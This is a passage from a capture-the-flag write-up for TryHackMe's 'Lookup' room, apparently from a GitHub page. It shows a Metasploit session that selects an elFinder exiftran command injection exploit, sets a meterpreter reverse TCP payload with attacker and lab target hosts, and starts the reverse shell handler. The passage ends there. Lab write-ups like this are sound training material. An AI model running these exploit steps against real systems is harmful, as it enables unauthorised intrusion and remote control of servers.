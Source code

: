 With a little research we find an exploit to a `command injection` vulnerability.

## Shell as www-data

Using metasploit , we take shell access

```bash
┌──(kali㉿kali)-[~/Desktop/TryHackMe/Lookup]
└─$ msfconsole
Metasploit tip: Use the analyze command to suggest runnable modules for 
hosts
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search elfinder

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/multi/http/builderengine_upload_exec                       2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution
   1  exploit/unix/webapp/tikiwiki_upload_exec                           2016-07-11       excellent  Yes    Tiki Wiki Unauthenticated File Upload Vulnerability
   2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution
   3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection
   4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection


Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection

msf6 > use 4
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 10.8.6.102
LHOST => 10.8.6.102
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS files.lookup.thm
RHOSTS => files.lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run

[*] Started reverse TCP handler on 10.8.6.102:4444 
```